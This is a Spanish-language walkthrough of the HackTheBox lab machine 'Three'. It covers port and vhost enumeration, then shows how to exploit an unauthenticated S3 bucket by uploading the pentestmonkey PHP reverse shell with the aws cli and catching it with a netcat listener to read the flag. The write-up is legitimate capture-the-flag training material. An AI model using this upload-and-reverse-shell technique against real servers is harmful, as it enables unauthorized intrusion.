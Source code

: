Maquina: Three

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 183538](https://github.com/user-attachments/assets/723e5af8-477b-4910-9178-04a6c1772101)

Iniciamos la máquina y verificamos la conexión

ping 10.129.65.152 -c 1

![Screenshot 2024-11-10 183802](https://github.com/user-attachments/assets/948ef97f-f391-4d7d-88ef-34d5d15103c5)

realizamos un escaneo de puertos y servicios

nmap -p- --min-rate 5000 -sV 10.129.65.152

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP están abiertos

![Screenshot 2024-11-10 183919](https://github.com/user-attachments/assets/cccca470-bbba-46bd-adcf-59f7489800ba)

vamos a la web y encontramos una dirección de correo electrónico que aparece en la sección de contacto: mail@thetoppers.htb

![Screenshot 2024-11-10 183948](https://github.com/user-attachments/assets/1400ba6a-c890-4f86-93db-5b9df8d84d96)

![Screenshot 2024-11-10 184023](https://github.com/user-attachments/assets/d54a6803-ce9f-4111-a4be-367c7801caf6)

añadimos la ip a /etc/hosts

echo 10.129.65.152 thetoppers.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 184239](https://github.com/user-attachments/assets/2cc97e10-0183-4f57-8b4e-0c27040728fd)

identificamos subdominios con Gobuster

gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain

![Screenshot 2024-11-10 184733](https://github.com/user-attachments/assets/e48ceb6c-7d0c-4cb0-bfad-55ab517dabbd)

añadimos la dirección del subdominio s3.thetoppers.htb al archivo /etc/hosts

![Screenshot 2024-11-10 185041](https://github.com/user-attachments/assets/1679ffdb-7560-4761-a7f2-7c3559680a5d)

echo 10.129.65.152 s3.thetoppers.htb | sudo tee -a /etc/hosts

vamos a la web

![Screenshot 2024-11-10 185051](https://github.com/user-attachments/assets/56135bcf-3d04-4c6d-8f82-b7132a3103cd)

el servicio se refiere a Amazon Simple Storage Service (Amazon S3)
Este servicio puede usarse para guardar diversos tipos de información, 
como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

Lo instalamos y lo configuramos

sudo apt install awscli

aws configure

![Screenshot 2024-11-10 185345](https://github.com/user-attachments/assets/9fc58951-8855-4757-a247-942a6d4d955e)

![Screenshot 2024-11-10 185622](https://github.com/user-attachments/assets/8729ed6c-509d-4e4b-847c-4ca8c24ccf0c)

Esto nos muestra dos elementos de interés y una carpeta llamada "images". Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

![image](https://github.com/user-attachments/assets/25d57d12-92f2-470f-aa49-c5b43eb8bb5b)

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. 
Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. 
Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en pentestmonkey. 

Puedes encontrar el script aquí: 

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

copiamos el payload en un file y cambiamos IP y puerto.

![Screenshot 2024-11-10 190554](https://github.com/user-attachments/assets/7c81e59a-50c9-42ae-942e-405b654f985a)

![Screenshot 2024-11-10 190607](https://github.com/user-attachments/assets/85f36252-4324-452c-a2f9-ab84623bc654)

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

![Screenshot 2024-11-10 190934](https://github.com/user-attachments/assets/9a8981c6-2593-455d-aa45-7f9be699b2f9)

si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

nc -nlvp 443

![Screenshot 2024-11-10 192106](https://github.com/user-attachments/assets/314431cf-41eb-4782-9190-ec0491abbd6f)

Luego, accedemos a http://thetoppers.htb/shell.php.4

![Screenshot 2024-11-10 191410](https://github.com/user-attachments/assets/d7130117-25c3-40a2-b92a-c56ac2498fed)

Encontramos el flag en /var/www/flag.txt

![Screenshot 2024-11-10 191420](https://github.com/user-attachments/assets/4936b202-8280-42ac-9e6c-7e36030eba59)

![Screenshot 2024-11-10 191542](https://github.com/user-attachments/assets/60e2a943-dd0c-401f-b1cb-bfe0afd6f355)
